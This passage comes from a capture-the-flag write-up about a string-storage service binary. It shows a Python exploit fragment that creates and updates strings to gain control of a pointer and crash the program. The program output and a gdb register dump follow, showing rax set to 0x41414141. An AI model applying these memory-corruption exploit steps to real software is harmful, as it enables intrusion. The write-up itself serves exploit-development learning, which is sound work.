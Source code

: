 ```
print s.recv(1024)

# send first string. this will be our shellcode
s.send('c 0 CTF!\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_shellcode = getID(data)

print '[+] first location = 0x{0:08x}'.format(p_shellcode)

# send second string. this will be our 'pivot' pointer.
# let's crash the binary to see if this works
s.send("c 1\n")

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' AAAA\n')

data = s.recv(64)
p_pivot = getID(data)

print '[+] second location = 0x{0:08x}'.format(p_pivot)

# send read request to crash binary

s.send('r ' + str(p_pivot) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '

# terminate connection cleanly
time.sleep(0.1)
s.send('x\n')

s.close()
```

After running this (and careful debugging of the script) I got a coredump:

```
$ python ./amaz.py
Welcome to Amazon S3 (String Storage Service)

    c <type> <string> - Create the string <string> as <type>
                        Types are:
                            0 - NULL-Terminated String
                            1 - Counted String
    r <id>            - Read the string referenced by <id>
    u <id> <string>   - Update the string referenced by <id> to <string>
    d <id>            - Destroy the string referenced by <id>
    x                 - Exit Amazon S3


[+] first location = 0x00b10030
[+] second location = 0x00b10050
bas@tritonal:~/documents/s3 writeup$ gdb ./s3 core
...snip...
gdb-peda$ i r
rax            0x41414141   0x41414141
```
